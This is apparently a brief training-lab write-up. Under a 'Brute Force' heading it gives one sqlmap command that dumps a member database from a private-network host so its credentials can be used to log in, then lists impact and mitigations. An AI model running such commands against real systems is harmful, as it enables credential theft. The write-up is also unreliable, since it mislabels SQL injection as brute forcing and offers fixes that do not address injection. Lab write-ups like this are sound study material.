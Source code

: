 # Brute Force

It's possible for an attacker to brute force the sign in form

## Steps
* Open your terminal and run:
```bash
sqlmap "http://192.68.0.106/index.php?page=member&id=1&Submit=Submit#" --dump -D Member_Brute_Force
```

* Log in using the credentials
<img src="https://i.imgur.com/OSQQBkT.png" />

## Vulnerablilities
* An attacker can obtain sensitive data such as user passwords or pins in such cases.

## Ways to secure
* Ensure clients use strong complex passwords.
* Limit the amount of requests a client can create.
